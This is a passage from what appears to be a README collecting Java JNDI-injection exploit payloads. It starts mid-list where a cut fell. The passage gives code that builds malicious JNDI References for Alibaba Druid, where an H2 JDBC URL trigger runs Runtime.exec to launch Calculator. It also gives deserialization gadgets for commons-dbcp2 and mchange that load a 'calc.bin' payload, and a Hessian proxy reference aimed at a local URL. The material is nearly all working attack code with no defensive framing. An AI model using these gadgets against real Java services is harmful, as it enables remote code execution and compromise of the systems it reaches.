        ref.add(new StringRefAddr("initialSize","1"));
       return ref;
    }
    ```
10. com.alibaba.druid
    
    ```java
    private static Reference druid(){
        Reference ref = new Reference("javax.sql.DataSource","com.alibaba.druid.pool.DruidDataSourceFactory",null);
        String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                "java.lang.Runtime.getRuntime().exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')\n" +
                "$$\n";
        String JDBC_USER = "root";
        String JDBC_PASSWORD = "password";
    
        ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
        ref.add(new StringRefAddr("url",JDBC_URL));
        ref.add(new StringRefAddr("username",JDBC_USER));
        ref.add(new StringRefAddr("password",JDBC_PASSWORD));
        ref.add(new StringRefAddr("initialSize","1"));
        ref.add(new StringRefAddr("init","true"));
        return ref;
    }
    ```
11. Deserialize
    
    **dbcp**
    
    ```java
    ResourceRef ref = new ResourceRef("org.apache.commons.dbcp2.datasources.SharedPoolDataSource", null, "", "",
                    true, "org.apache.commons.dbcp2.datasources.SharedPoolDataSourceFactory", null);
    ref.add(new BinaryRefAddr("jndiEnvironment", Files.readAllBytes(Paths.get("calc.bin"))));
    ```
    
    **mchange-common**
    
    ```java
    ResourceRef ref = new ResourceRef("java.lang.String", null, "", "", true, "com.mchange.v2.naming.JavaBeanObjectFactory", null);
    ref.add(new BinaryRefAddr("com.mchange.v2.naming.JavaBeanReferenceMaker.REF_PROPS_KEY", Files.readAllBytes(Paths.get("calc.bin"))));
    ```
    
    **hessian**
    
    ```java
    LookupRef ref = new LookupRef("java.lang.String","look");
    ref.add(new StringRefAddr("factory", "com.caucho.hessian.client.HessianProxyFactory"));
    //com.caucho.burlap.client.BurlapProxyFactory
    ref.add(new StringRefAddr("type", "java.lang.AutoCloseable"));
    ref.add(new StringRefAddr("url", "http://127.0.0.1:6666/"));
    ```
